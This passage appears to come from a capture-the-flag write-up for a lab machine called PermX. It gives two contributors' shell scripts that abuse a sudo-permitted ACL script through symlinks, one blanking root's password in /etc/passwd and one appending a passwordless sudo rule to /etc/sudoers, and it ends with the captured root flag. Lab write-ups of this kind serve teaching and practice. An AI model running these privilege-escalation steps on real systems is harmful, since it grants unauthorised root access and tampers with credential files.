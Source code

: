 #### xvt's Solution

```c
mtz@permx:~$ cat shell.sh
#!/bin/bash
ln -sf / /home/mtz/root
sudo /opt/acl.sh mtz rwx "/home/mtz/root/etc/passwd"
sed -i 's/root:x:/root::/' /etc/passwd
sleep 1
su root
```

#### Yeeb's Solution

```c
mtz@permx:~$ cat shell.sh
#!/bin/bash

rm -f /home/mtz/sudoers_link
ln -s /etc/sudoers /home/mtz/sudoers_link

sudo /opt/acl.sh mtz rwx /home/mtz/sudoers_link

echo "mtz ALL=(ALL) NOPASSWD: ALL" | tee -a /home/mtz/sudoers_link

sudo -l
```

## root.txt

```c
root@permx:/home/mtz# cat /root/root.txt
dab094697a3d5907e1a20b225d63e24d
```
